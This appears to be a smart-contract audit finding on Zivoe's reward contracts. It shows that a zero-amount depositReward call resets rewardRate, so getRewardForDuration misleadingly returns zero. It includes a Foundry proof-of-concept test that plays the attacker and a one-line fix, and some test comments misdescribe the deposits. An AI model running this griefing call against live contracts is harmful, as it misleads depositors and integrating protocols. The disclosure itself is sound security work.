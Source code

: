 Round Sage Mouse

medium

# Anyone can grief the `getRewardForDuration` to return an incorrect amount until a non-zero depositReward is made again for a particular token if the current reward period has gone by in both the ZivoeRewards and/or ZivoeRewardsVesting contracts.

## Summary
If the current reward period has [ended](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L232) for a certain `_rewardToken`, the if block will run and a `reward` input of 0 will make the *rewardRate* for a particular token to become zero even if the malicious user does not have any balance of *_rewardToken* or *stakingToken*. This will make the contract function `getRewardForDuration` to return 0 until a new update is made though the only function that updates the `rewardRate`, both in the ZivoeRewards and/or ZivoeRewardsVesting contracts: [depositReward] [function](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) in ZivoeRewards and [function](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352-L367) in ZivoeRewardsVesting contract. This is not a vulnerability per say since it does not affect the protocol in any way, but I consider it a bug since it can trick some honest user into believing they will receive no rewards for a certain token (or even all tokens if the 0 deposit is made for all reward tokens) - and this can be easily avoided by a simple check.

## Vulnerability Detail

The `rewardRate` variable can only be set when a call is made to the `depositReward` function in both contracts. If the current reward period has ended for a specific token, the if block in both contracts will run as shown below:
```solidity
    function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);

        // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            // @auditor the below will be something like: 0 / nonZeroSomething => 0
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
            // @auditor not important for the issue in question.
        }

        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
        rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```

## Impact
If the `rewardRate` becomes 0 for a reward token, the following function, if called in between a zero deposit and a non-zero deposit, will return zero as a result:
```solidity
    /// @notice Returns the total amount of rewards being distributed to everyone for current rewardsDuration.
    /// @param  _rewardsToken The asset that's being distributed.
    /// @return amount The amount of rewards being distributed.
    function getRewardForDuration(address _rewardsToken) external view returns (uint256 amount) {
        // @auditor this will be like: return 0 * nonZeroSomething => amount is 0.
        return rewardData[_rewardsToken].rewardRate.mul(rewardData[_rewardsToken].rewardsDuration);
    }
```
Therefore, the function that should return the *@notice ... the total amount of rewards being distributed to everyone for current rewardsDuration* will return 0, tricking the user to think that if (s)he deposits, (s)he will receive no rewards for that - which is obviously deceptive! This might be true for all `_rewardToken`s - as there is a maximum of 10 tokens allowed to be rewardTokens. The attacker just needs to pay for fees - the worst scenario being if the protocol is launched in a very cheap blockchain futurely. The second issue is that, currently, the `getRewardForDuration` function seems not to be used anywhere else within the protocol. However, if there are other protocols that want to integrate to Zivoe, they will be susceptible to this bug, which may end up becoming a vulnerability for them, causing loss of reputation for the Zivoe protocol.

## Code Snippet

Without loss of generality, the proof of concept was made for the `ZivoeRewards` contract. The same proof of concept can be easily done for the `ZivoeRewardsVesting` as well. 
```solidity
pragma solidity ^0.8.0;

import {Test, console} from "../lib/forge-std/src/Test.sol";
import {ERC20} from "../lib/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import {ZivoeRewards} from "../src/ZivoeRewards.sol";
import {ZivoeGlobals} from "../src/ZivoeGlobals.sol";

contract StakingToken is ERC20("SToken", "STK") {
    constructor() {
        _mint(msg.sender, 1000 ether);
    }

    function mintMe() external {
        _mint(msg.sender, 1 ether);
    }
}

contract CounterTest is Test {
    ZivoeRewards rewards;
    ZivoeGlobals _GBL;
    StakingToken stToken;
    StakingToken rewardsToken;
    address[] globals;
    address[] stables;
    address attacker;
    address innocentUser;

    function setUp() public {
        attacker = makeAddr("attacker");
        innocentUser = makeAddr("innocentUser");
        stToken = new StakingToken();
        rewardsToken = new StakingToken(); // just an ERC20
        _GBL = new ZivoeGlobals();

        rewards = new ZivoeRewards(address(stToken), address(_GBL));

        for (uint i; i < 14; i++) {
            if (i == 10) globals.push(address(this));
            globals.push(address(999));
            if (i <= 2) stables.push(address(888));
        }

        _GBL.initializeGlobals(globals, stables); // initialize ZVL variable for calling addReward.

        rewards.addReward(address(rewardsToken), 1 days);

        // innocentUser mints and stakes
        vm.startPrank(innocentUser);
        stToken.mintMe();
        stToken.approve(address(rewards), 10 ether);
        rewards.stake(1 ether);

        rewardsToken.mintMe();
        rewardsToken.mintMe();
        rewardsToken.mintMe();
        rewardsToken.approve(address(rewards), 10 ether);
        rewards.depositReward(address(rewardsToken), 1 ether);
        vm.stopPrank();
    }

    function testManipulateRewardRateWithZeroDeposit() public {
        vm.warp(5 days); // move to a future block after the reward period has ended.

        vm.startPrank(innocentUser);
        uint256 earnedBeforeAttack = rewards.earned(
            innocentUser,
            address(rewardsToken)
        );
        assertGt(earnedBeforeAttack, 0); // innocentUser has earned some rewards.
        assertGt(rewards.getRewardForDuration(address(rewardsToken)), 0);

        vm.stopPrank();

        // attacker sets rewardRate to 0 with a 0 depositReward.
        vm.startPrank(attacker);
        rewards.depositReward(address(rewardsToken), 0);
        vm.stopPrank();

        vm.warp(6 days);

        vm.startPrank(innocentUser);
        rewards.depositReward(address(rewardsToken), 0); // innocentUser deposits 0 amount to manipulate rewardRate.
        assert(rewards.getRewardForDuration(address(rewardsToken)) == 0); // 0-ed rewardRate.

        rewardsToken.approve(address(rewards), 2 ether);
        rewards.depositReward(address(rewardsToken), 2 ether); // innocentUser deposits 0 amount to manipulate rewards.
        assertGt(rewards.getRewardForDuration(address(rewardsToken)), 0); // non-0 deposit needs to happen for rewardRate to increase again.
    }
}
```

## Tool used

Manual Review

## Recommendation

Simply add the check in both contracts:
```solidity
    function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        require(reward > 0, ">0"); // @auditor: simple check for `reward`.
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);
```
